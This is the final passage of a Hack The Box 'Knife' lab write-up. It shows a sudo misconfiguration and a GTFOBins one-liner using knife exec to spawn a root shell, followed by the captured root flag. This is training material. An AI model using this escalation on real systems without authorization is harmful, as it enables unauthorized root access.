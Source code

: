 User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
$

When you see you can run commands as root, which is what `sudo -l` tells you, the first stop to check is GTFObins, and when we search it for knife we find this link which tells us how to elevate: [https://gtfobins.github.io/gtfobins/knife/#sudo](https://gtfobins.github.io/gtfobins/knife/#sudo)

$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
id
bash: cannot set terminal process group (963): Inappropriate ioctl for device
bash: no job control in this shell
root@knife:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@knife:/home/james# cd /root
cd /root
root@knife:~# ls
ls
delete.sh
root.txt
snap
root@knife:~# cat root.txt
cat root.txt
1695506cb19da77cd678a444ca59fe8f
root@knife:~# 

And with that, knife has been rooted. It is a relatively easy machine, but if you miss that PHP version like I did, you will have some issues and it may take a bit longer. If you're ever stuck for a long while and think you have enumerated all you can, it doesn't hurt to check the HTB forums. Any spoilers on the box are removed, and people are good about giving hints that push you in the right direction without just telling you what to look for.
